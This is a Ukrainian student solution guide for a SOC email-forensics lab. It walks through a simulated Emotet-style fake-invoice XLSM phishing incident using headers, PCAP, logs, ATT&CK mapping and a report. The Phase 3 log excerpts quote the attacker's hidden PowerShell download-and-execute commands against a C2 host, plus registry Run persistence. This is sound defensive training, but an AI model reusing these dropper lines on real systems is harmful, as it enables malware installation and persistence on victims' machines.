







# Розбір лабораторної роботи — Сценарій 06: Malware Delivery via Fake Invoice

**Модуль:** Email Forensics | **Сценарій:** 06 — Fake Invoice (Emotet-style XLSM Dropper)
**Формат:** Self-Paced | **Мова:** Українська | **Тип:** Student Solution Guide

---

> Цей документ містить повний покроковий розбір лабораторної роботи. Використовуй його якщо застряг під час виконання або хочеш перевірити свої висновки після здачі звіту.

---

## 🚨 Брифінг інциденту

Ти — аналітик SOC у компанії **TechFrontier UA**. О **09:59** ти отримав автоматичне сповіщення від системи Defender for Endpoint:

```
[CRITICAL] INC-2024-032701
Host:   DESKTOP-ACCOUNTING01 (192.168.5.88)
User:   o.koval@techfrontier.com.ua
Alert:  Backdoor.Emotet.Gen.Dropper — C2 beaconing detected
C2:     185.156.72.11:8080
Action required: Investigate and contain
```

Твоє завдання — з'ясувати **як** відбувся інцидент, **що** зловмисники отримали, і **скласти технічний звіт** з рекомендаціями.

Середовище для аналізу: **http://localhost:8086**

---

## Фаза 1 — Аналіз фішингового листа

### Крок 1.1 — Відкрити веб-поштовий інтерфейс

Відкрий браузер і перейди на `http://localhost:8086` якщо ви знаходитесь в самій машині. Ти побачиш папку «Вхідні» з листом позначеним як **⚠ ПІДОЗРІЛИЙ**.

Скріншот — вхідні повідомлення, червоний badge навпроти листа від billing@ukr-accounting-service.net



### Крок 1.2 — Переглянути деталі листа

Натисни на лист. Запиши ключові дані:

| Поле | Значення |
|---|---|
| From | `billing@ukr-accounting-service.net` |
| To | `o.koval@techfrontier.com.ua` |
| X-Originating-IP | `193.201.22.41` |
| SPF | `FAIL` |
| DMARC | `FAIL (p=QUARANTINE)` |
| Вкладення | `Рахунок_фактура_INV-2024-0847.xlsm` |

 Скріншот — панель IOC з червоними прапорцями SPF FAIL, DMARC FAIL


### Крок 1.3 — Raw Headers

Натисни **«Raw Headers»**, знайди:

```
Authentication-Results: mx.techfrontier.com.ua;
       spf=fail (193.201.22.41 is not authorized...)
       dmarc=fail (p=QUARANTINE; pct=100)
```

**🔴 Висновок:** IP `193.201.22.41` не авторизований для домену `ukr-accounting-service.net`.

Скріншот — вмист вовідомленя з вкладеним документом

---

## Фаза 2 — Аналіз мережевого трафіку (PCAP)

### Крок 2.1 — Підготовка PCAP

```bash
# Перевірка PCAP файлу
ls -lh /home/analyst/scenario/sc06.pcap
-rwxr-x--- 1 analyst lab_students 128K Apr 30 23:02 /home/analyst/scenario/sc06.pcap
```


### Крок 2.2 — Знайти C2 DNS запит

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap port 53 | grep -i "cdn-updates"
```

**Очікуваний вивід:**

```
11:32:30.000000 IP 192.168.5.88.52841 > 192.168.5.1.domain: 21016+ A? cdn-updates-service.com. (41)
```


### Крок 2.2 — Знайти C2 DNS запит
Знайти відповідь з IP (використай Transaction ID з попереднього рядка, наприклад `21016`):

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap -n port 53 | grep -A1 "cdn-updates"
```

**Очікуваний вивід:**

```
11:32:30.000000 IP 192.168.5.88.52841 > 192.168.5.1.53: 21016+ A? cdn-updates-service.com. (41)
11:32:30.039999 IP 192.168.5.1.53 > 192.168.5.88.52841: 21016 1/0/0 A 185.156.72.11 (57)
```

[[VISUAL: Скріншот — два рядки DNS: запит та відповідь з IP 185.156.72.11]]

**🔴 IOC:** `cdn-updates-service.com` → `185.156.72.11`

### Крок 2.3 — Переглянути весь C2 трафік

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap host 185.156.72.11
```

[[VISUAL: Скріншот — TCP сесії до 185.156.72.11 на портах 80 та 8080]]

### Крок 2.4 — Знайти Excel та PowerShell User-Agent

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap -A port 80 | grep -i "excel\|office\|powershell"
```

**Очікуваний вивід:**

```
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Excel 16.0.17126; Pro)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; PowerShell/5.1.19041.4648)
```

[[VISUAL: Скріншот — два рядки User-Agent виділені]]

### Крок 2.5 — Переглянути payload

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap -A host 185.156.72.11 | head -80
```

Знайдеш три ключові транзакції:

**1. Excel завантажує .ps1:**
```
GET /invoices/get_payload.ps1 HTTP/1.1
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Excel 16.0.17126; Pro)
```

**2. PowerShell завантажує DLL:**
```
GET /stage2/svchost_helper.dll HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; PowerShell/5.1.19041.4648)
```

**3. C2 Beacon (IE11 UA з не-IE процесу):**
```
POST /cdn/check HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 10.0; Trident/7.0)
```

[[VISUAL: Скріншот tcpdump -A — три секції виділені]]

### Крок 2.6 — Підрахувати beacon

```bash
tcpdump -r /home/analyst/scenario/sc06.pcap -A host 185.156.72.11 | grep "POST /cdn/check"
```

**🔴 Висновок Фази 2:** 8 C2 beacon (~120с інтервал) до `185.156.72.11:8080`. Спроба ексфільтрації — HTTP 403.

---

## Фаза 3 — Аналіз журналів безпеки

### Крок 3.1 — Увійти в контейнер

```bash
sudo docker exec -it forensics_sc06_invoice bash
```

### Крок 3.2 — AV Log

```bash
cat /var/log/security/av_alerts.log
```

Запиши:

**Process chain:**
```
EXCEL.EXE(5900) → cmd.exe(6100) → powershell.exe(6200)
```

**PowerShell команда:**
```
powershell.exe -NoP -W Hidden -EP Bypass -c
"$wc=(New-Object Net.WebClient);
IEX($wc.DownloadString('http://cdn-updates-service.com/invoices/get_payload.ps1'))"
```

**Persistence key:**
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WinSvcHost
Value: C:\Users\o.koval\AppData\Local\Temp\svchost_helper.dll
```

[[VISUAL: Скріншот av_alerts.log — виділені MACRO-XLSM та PERSIST-REGISTRY-RUN]]

### Крок 3.3 — PowerShell Transcript

```bash
cat /var/log/security/powershell_transcript.log
```

Знайди:

```powershell
PS> IEX($wc.DownloadString('http://cdn-updates-service.com/invoices/get_payload.ps1'))
PS> $wc2.DownloadFile('http://185.156.72.11/stage2/svchost_helper.dll', $tmpPath)
PS> Set-ItemProperty -Path $regPath -Name 'WinSvcHost' -Value $tmpPath
PS> New-Object System.Threading.Mutex($false, 'Local\WinSvcHostV2')
```

[[VISUAL: Скріншот powershell_transcript.log — виділені IEX, DownloadFile, Mutex]]

### Крок 3.4 — Web Access Log

```bash
cat /var/log/web/access.log
```

Серед легітимних запитів знайди підозрілі:

```
# Excel завантажує .ps1 — IOC:
192.168.5.88 [...] "GET http://cdn-updates-service.com/invoices/get_payload.ps1"
"Microsoft Office/16.0 (Windows NT 10.0; Microsoft Excel 16.0.17126; Pro)"

# C2 Beacon x8 — IOC:
192.168.5.88 [...] "POST http://cdn-updates-service.com:8080/cdn/check" 200
"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 10.0; Trident/7.0)"

# Exfil — заблоковано:
192.168.5.88 [...] "POST http://cdn-updates-service.com:8080/cdn/telemetry/upload" 403
```

[[VISUAL: Скріншот access.log — IOC рядки виділені серед легітимних запитів]]

**🔴 Висновок Фази 3:** Підтверджено повний ланцюг: email → XLSM → cmd → PowerShell → DLL → Registry Run → Mutex → beacon ×8 → exfil (blocked).

---

## Фаза 4 — MITRE ATT&CK Mapping та Звіт

### Крок 4.1 — ATT&CK матриця

| Техніка | ID | Артефакт |
|---|---|---|
| Phishing + XLSM | T1566.001 | `06_malware_invoice.eml` |
| XLM macro | T1137.001 | AV log: `Auto_Open() sheet "CdnApi"` |
| PowerShell -EP Bypass | T1059.001 | `powershell_transcript.log` |
| Office → cmd.exe | T1204.002 | AV log: process chain |
| Registry Run Key | T1547.001 | AV log: `HKCU\...\Run\WinSvcHost` |
| HTTP C2 beacon | T1071.001 | PCAP: 8× POST /cdn/check |
| IE11 UA masquerading | T1036 | PCAP: MSIE 9.0 з не-IE процесу |
| Exfiltration | T1041 | access.log: POST telemetry (403) |

### Крок 4.2 — Скласти звіт

```bash
exit   # вийди з контейнера
nano /home/analyst/scenario/INC-2024-032701_report.txt
```

**Executive Summary:**
```
О 09:41 27 березня 2024 бухгалтер TechFrontier UA О.Коваль отримала
фішинговий лист з XLSM-вкладенням. XLM macro завантажив PowerShell
dropper та DLL-бекдор з C2 185.156.72.11. Зафіксовано 8 C2 beacon
(18 хвилин) та спробу ексфільтрації фінансових даних (HTTP 403).
```

**Хронологія:**
```
11:30:30 - Фішинговий лист доставлено (SPF FAIL, DMARC FAIL)
11:31:30 - Жертва відкриває Рахунок_фактура_INV-2024-0847.xlsm
11:32:22 - DNS: cdn.microsoft.com (легітимний — маскування)
11:32:26 - DNS: officecdn.microsoft.com (легітимний — маскування)
11:32:30 - DNS: cdn-updates-service.com → 185.156.72.11  ← IOC
11:32:32 - HTTP GET /invoices/get_payload.ps1  (Excel UA)
11:32:35 - HTTP GET /stage2/svchost_helper.dll (PowerShell UA)
11:34:00 - C2 Beacon #1 → 185.156.72.11:8080
11:36:00 - C2 Beacon #2 (+122s)
11:50:17 - Exfil POST /cdn/telemetry/upload → HTTP 403
11:55:07 - Port scan: DC01, DC02, ERP01 (port 445)
```

**IOC список:**
```
Network:  185.156.72.11:8080  /  cdn-updates-service.com
Host:     Mutex: Local\WinSvcHostV2
          RegKey: HKCU\...\Run\WinSvcHost → %TEMP%\svchost_helper.dll
          UA fingerprint: MSIE 9.0 з не-IE процесу
```

**Рекомендації:**
```
1. НЕГАЙНО:        Ізолювати DESKTOP-ACCOUNTING01
2. НЕГАЙНО:        Заблокувати 185.156.72.11 та cdn-updates-service.com
3. Протягом 1 год: Скинути паролі o.koval (AD + ERP + ПриватБанк)
4. До очищення:    Memory dump (volatility malfind)
5. Довгострокове:  SPF policy змінити з QUARANTINE на REJECT
```

```bash
# Ctrl+O → Enter → Ctrl+X
```

[[VISUAL: Скріншот заповненого звіту INC-2024-032701_report.txt]]

---

## ✅ Фінальна перевірка

- [ ] IP відправника: `193.201.22.41`
- [ ] C2 IP:Port: `185.156.72.11:8080`
- [ ] C2 домен: `cdn-updates-service.com`
- [ ] Файл .ps1: `get_payload.ps1`
- [ ] DLL payload: `svchost_helper.dll`
- [ ] Registry: `HKCU\...\Run\WinSvcHost`
- [ ] Mutex: `Local\WinSvcHostV2`
- [ ] Кількість beacon: `8`
- [ ] Exfil результат: `HTTP 403`

---

## 🧹 Cleanup

```bash
sudo docker compose -f docker-compose.sc06.yml down
rm /home/analyst/scenario/sc06.pcap
rm /home/analyst/scenario/INC-2024-032701_report.txt
```

---

*ITS/КСЗІ — Email Forensics Lab | Сценарій 06 | EDUCATIONAL USE ONLY | SET University*
